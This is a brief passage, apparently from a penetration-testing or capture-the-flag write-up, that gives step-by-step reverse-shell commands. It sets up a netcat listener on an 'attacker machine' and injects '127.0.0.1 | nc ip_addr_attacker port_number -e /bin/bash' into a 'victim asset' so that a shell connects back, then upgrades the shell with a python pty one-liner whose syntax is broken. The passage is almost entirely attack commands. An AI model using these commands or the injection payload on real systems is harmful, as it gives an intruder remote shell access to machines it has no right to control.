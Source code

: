 On attacker machine:

```shell
nc -lvp port_number
```

2. If reflection success, get reverse shell

On victim asset:

```shell
127.0.0.1 | nc ip_addr_attacker port_number -e /bin/bash
```

On attacker machine:

```shell
python -c "import pty:pty.spawn('/bin/bash')"
```
